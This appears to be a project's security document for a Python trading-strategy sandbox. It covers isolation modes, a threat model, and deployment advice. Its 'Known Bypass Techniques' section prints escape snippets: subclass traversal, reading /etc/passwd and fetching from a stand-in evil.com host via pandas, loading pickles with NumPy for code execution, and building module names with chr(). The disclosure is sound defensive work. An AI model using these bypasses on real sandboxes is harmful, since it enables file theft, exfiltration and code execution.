


# Security Model & Assumptions

This document describes the security architecture of the strategy execution sandbox, its limitations, and deployment recommendations.

> [!CAUTION]
> The current sandbox implementation is designed for **trusted environments only**. It does NOT provide sufficient isolation for multi-tenant or public-facing deployments where users can submit arbitrary strategy code.

---

## Architecture Overview



### Execution Flow (Subprocess Mode)

1. **Validation Phase** (subprocess): Code is executed in isolated subprocess with:
   - Memory limits (Linux only, monitoring on Windows)
   - CPU time limits
   - Restricted imports (whitelist)
   - Blocked dangerous builtins (`eval`, `exec`, `compile`, `open`)

2. **Execution Phase** (main process): Since Python class objects cannot be serialized across process boundaries, the validated code is re-executed in the main process using a "soft" sandbox.

> [!IMPORTANT]
> The subprocess validates that code *can* run safely, but actual execution occurs in the main process.

---

## Threat Model

### What is Protected

| Threat | Subprocess Mode | Soft Mode |
|--------|----------------|-----------|
| `eval`/`exec` injection | ✅ Blocked | ✅ Blocked |
| Direct `os`/`sys`/`subprocess` import | ✅ Blocked | ✅ Blocked |
| Infinite loops | ✅ Timeout | ❌ No protection |
| Memory exhaustion | ⚠️ Linux only | ❌ No protection |
| `__subclasses__` traversal | ⚠️ Blocked in subprocess only | ❌ Not blocked |

### What is NOT Protected

| Attack Vector | Risk Level | Notes |
|---------------|-----------|-------|
| **Pandas/NumPy file I/O** | 🔴 HIGH | `pd.read_csv()`, `np.load()` bypass import restrictions |
| **Object graph traversal** | 🔴 HIGH | `().__class__.__bases__[0].__subclasses__()` |
| **Dynamic code construction** | 🔴 HIGH | String manipulation to bypass static checks |
| **Pickle deserialization** | 🔴 HIGH | Via pandas or direct pickle usage |
| **Network access via allowed libs** | 🟠 MEDIUM | pandas can fetch URLs: `pd.read_csv("http://...")` |
| **Reflection attacks** | 🟠 MEDIUM | `getattr(getattr(...), '__globals__')` |

---

## Sandbox Modes

### Subprocess Mode (Default)

```bash
# .env
SANDBOX_MODE=subprocess
SANDBOX_TIMEOUT_SECONDS=30
SANDBOX_MAX_MEMORY_MB=512
```

**Pros:**
- Resource limits (memory, CPU time)
- Process isolation for validation phase
- Early detection of dangerous patterns

**Cons:**
- Main process still executes code
- Adds latency (~100-500ms per strategy load)

### Soft Mode (Deprecated)

```bash
# .env
SANDBOX_MODE=soft
```

> [!WARNING]
> Soft mode provides minimal security and should only be used for local development with trusted code.

---

## Security Assumptions

This system is designed with the following assumptions:

### ✅ Safe Use Cases

1. **Single-user deployment** - You are the only person writing/running strategies
2. **Trusted team environment** - All users are trusted developers
3. **Internal tool** - Behind corporate firewall with authenticated access
4. **Educational/demo purposes** - No sensitive data or real trading

### ❌ Unsafe Use Cases

1. **Public SaaS platform** - Untrusted users submitting strategies
2. **Multi-tenant deployment** - Multiple organizations sharing infrastructure
3. **Real money trading** - Any scenario where malicious code could cause financial loss
4. **Sensitive data access** - Database credentials, API keys in environment

---

## Deployment Recommendations

### Minimum Security Requirements

- [ ] Enable subprocess sandbox mode (`SANDBOX_MODE=subprocess`)
- [ ] Use authentication (`AUTH_ENABLED=true`)
- [ ] Run behind reverse proxy with HTTPS
- [ ] Set restrictive `CORS_ORIGINS`
- [ ] Disable file write (`SANDBOX_ALLOW_FILE_WRITE=false`)
- [ ] Disable network access (`SANDBOX_ALLOW_NETWORK=false`)

### For Multi-User Deployments (High Risk)

If you must support multiple users, implement additional layers:

1. **Strategy Review Workflow**
   ```python
   # Require admin approval for new strategies
   STRATEGY_APPROVAL_REQUIRED=true
   ```

2. **Container Isolation**
   - Run each backtest in a separate Docker container
   - Use `--network=none` to block network access
   - Mount strategy directory read-only

3. **User Quotas**
   - Limit strategies per user
   - Rate limit backtest executions
   - Monitor and alert on resource usage

4. **Audit Logging**
   - Log all strategy submissions with user ID
   - Track execution times and resource usage
   - Alert on suspicious patterns

### Production Architecture (Recommended)

For production multi-tenant deployments, consider:



- Run backtests in ephemeral containers/VMs
- No direct access to main application database
- Results returned via message queue
- Workers destroyed after each execution

---

## Known Bypass Techniques

These techniques can bypass current protections. They are documented here for transparency:

### 1. Object Graph Escape

```python
# This is blocked in subprocess but works in main process
escape = ().__class__.__bases__[0].__subclasses__()
```

### 2. Pandas File Access

```python
import pandas as pd
# Read arbitrary files
data = pd.read_csv('/etc/passwd')
# Network access
data = pd.read_csv('http://evil.com/exfil')
```

### 3. NumPy Arbitrary Code

```python
import numpy as np
# Load pickled objects (arbitrary code execution)
np.load('evil.npy', allow_pickle=True)
```

### 4. Dynamic Import Reconstruction

```python
# Bypass static 'os' detection
module_name = chr(111) + chr(115)  # 'os'
```

---

## Reporting Security Issues

If you discover a security vulnerability, please report it responsibly:

1. **Do not** open a public GitHub issue
2. Email the maintainers directly (add contact email)
3. Include reproduction steps
4. Allow reasonable time for a fix before disclosure

---

## Changelog

| Version | Date | Changes |
|---------|------|---------|
| 1.0 | 2025-12-20 | Initial security documentation |
